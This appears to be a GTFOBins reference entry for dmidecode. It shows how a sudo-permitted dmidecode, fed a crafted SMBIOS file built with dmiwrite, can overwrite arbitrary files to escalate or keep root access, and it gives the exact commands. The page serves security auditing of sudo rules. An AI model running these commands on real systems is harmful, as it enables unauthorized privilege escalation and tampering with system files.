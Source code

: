 # GTFOBin: dmidecode

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

It can be used to overwrite files using a specially crafted SMBIOS file that can be read as a memory device by dmidecode.
Generate the file with dmiwrite and upload it to the target.

`--dump-bin`, will cause dmidecode to write the payload to the destination specified, prepended with 32 null bytes.

`--no-sysfs`, if the target system is using an older version of dmidecode, you may need to omit the option.

```
make dmiwrite
TF=$(mktemp)
echo "DATA" > $TF
./dmiwrite $TF x.dmi

```

```
LFILE=file_to_write
sudo dmidecode --no-sysfs -d x.dmi --dump-bin "$LFILE"
```
